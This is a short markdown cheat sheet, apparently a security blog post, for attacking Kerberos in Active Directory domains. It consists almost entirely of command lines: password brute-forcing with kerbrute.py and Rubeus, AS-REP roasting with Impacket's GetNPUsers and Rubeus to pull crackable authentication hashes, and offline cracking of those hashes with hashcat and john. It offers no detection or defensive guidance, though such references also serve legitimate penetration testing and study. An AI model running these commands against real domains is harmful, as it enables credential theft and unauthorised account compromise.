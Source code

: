 ```yaml
---
title: Kerberos Attacks cheatsheet
author: Kasem Shibli
date: 2025-10-31 22:41:00 +/-TTTT
categories: [CheetSheets]
tags: [Kerberos]
---
```

# Kerberos Attacks cheatsheet

## Bruteforcing

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):
```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:
```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:
```shell
# check ASREPRoast for all domain users (credentials required)
impacket-GetNPUsers <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
impacket-GetNPUsers <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```
